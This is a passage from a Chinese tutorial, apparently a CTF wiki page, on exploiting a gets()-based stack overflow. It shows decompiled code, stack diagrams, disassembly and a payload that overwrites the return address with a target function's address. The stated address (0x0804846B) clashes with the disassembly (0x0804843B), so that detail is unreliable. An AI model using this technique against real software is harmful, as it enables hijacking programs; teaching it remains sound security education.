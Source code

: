 确认栈溢出和PIE保护关闭后，我们利用IDA来反编译一下二进制程序并查看vulnerable函数 。可以看到

```C
int vulnerable()
{
  char s; // [sp+4h] [bp-14h]@1

  gets(&s);
  return puts(&s);
}
```

该字符串距离ebp的长度为0x14，那么相应的栈结构为

```text
                                           +-----------------+
                                           |     retaddr     |
                                           +-----------------+
                                           |     saved ebp   |
                                    ebp--->+-----------------+
                                           |                 |
                                           |                 |
                                           |                 |
                                           |                 |
                                           |                 |
                                           |                 |
                              s,ebp-0x14-->+-----------------+
```

并且，我们可以通过IDA获得success的地址，其地址为0x0804846B。

```asm
.text:0804843B success         proc near
.text:0804843B                 push    ebp
.text:0804843C                 mov     ebp, esp
.text:0804843E                 sub     esp, 8
.text:08048441                 sub     esp, 0Ch
.text:08048444                 push    offset s        ; "You Hava already controlled it."
.text:08048449                 call    _puts
.text:0804844E                 add     esp, 10h
.text:08048451                 nop
.text:08048452                 leave
.text:08048453                 retn
.text:08048453 success         endp
```

那么如果我们读取的字符串为

```
0x14*'a'+'bbbb'+success_addr
```

那么，由于gets会读到回车才算结束，所以我们可以直接读取所有的字符串，并且将saved ebp覆盖为bbbb，将retaddr覆盖为success_addr，即，此时的栈结构为

```text
                                           +-----------------+
                                           |    0x0804843B   |
                                           +-----------------+
                                           |       bbbb      |
                                    ebp--->+-----------------+
                                           |                 |
                                           |                 |
                                           |                 |
                                           |                 |
                                           |                 |
                                           |                 |
                              s,ebp-0x14-->+-----------------+
```
